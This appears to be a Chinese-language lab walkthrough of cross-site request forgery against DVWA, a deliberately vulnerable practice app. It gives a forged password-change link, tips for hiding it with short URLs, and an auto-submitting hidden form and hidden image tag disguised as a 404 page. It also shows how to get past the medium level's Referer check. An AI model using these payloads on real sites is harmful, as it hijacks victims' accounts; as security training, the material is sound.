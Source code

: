 ```htmlmixed
Connection: close
```
根据拦截的http请求，可以伪造如下链接让受害者点击，从而修改密码
`http://ip:port/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change`

更具隐藏性的方式：
1.使用短链接来隐藏 URL：
为了更加隐蔽，可以生成短网址链接，点击短链接，会自动跳转到真实网站：
http://tinyurl.com/yd2gogtv
PS:提供一个短网址生成网站
2.构造攻击页面：
* 方式 1 通过img标签中的src属性来加载CSRF攻击利用的URL，并进行布局隐藏，实现了受害者点击链接则会将密码修改。
* 方式 2 查看页面html源代码，将关于密码操作的表单部分，通过javascript的onload事件加载和css代码来隐藏布局，按GET传递参数的方式，进一步构造html form表单，实现了受害者点击链接则会将密码修改。
```html
<body onload="javascript:csrf()">
<script>
function csrf(){
document.getElementById("button").click();
}
</script>
<style>
form{
display:none;
}
</style>
    <form action="http://www.dvwa.com/vulnerabilities/csrf/?" method="GET">
        New password:<br />
        <input type="password" AUTOCOMPLETE="off" name="password_new" value="test"><br />
        Confirm new password:<br />
        <input type="password" AUTOCOMPLETE="off" name="password_conf" value="test"><br />
        <br />
        <input type="submit" id="button" name="Change" value="Change" />
    </form>
</body>
```

构造攻击页面

现实攻击场景下，这种方法需要事先在公网上传一个攻击页面，诱骗受害者去访问，真正能够在受害者不知情的情况下完成CSRF攻击。这里为了方便演示，就在本地写一个test.html，下面是具体代码。

```
<img src="http://192.168.31.84:81/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change# border="0" style="display:none;"/>
<h1>404</h1>
<h2>file not found.</h2>
```
当受害者访问test.html时，会误认为是自己点击的是一个失效的url，但实际上已经遭受了CSRF攻击，密码已经被修改为了hack。

## medium模式
检查 HTTP_REFERER（http包头的Referer参数的值，表示来源地址）中是否包含SERVER_NAME（http包头的Host参数，及要访问的主机名，）
```
// Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
```
想要通过验证，就必须保证在http请求中Referer字段中必须包含Host
我们这需要把上面的攻击页面名字改成包含host就可以了。(把攻击页面放在服务器上)
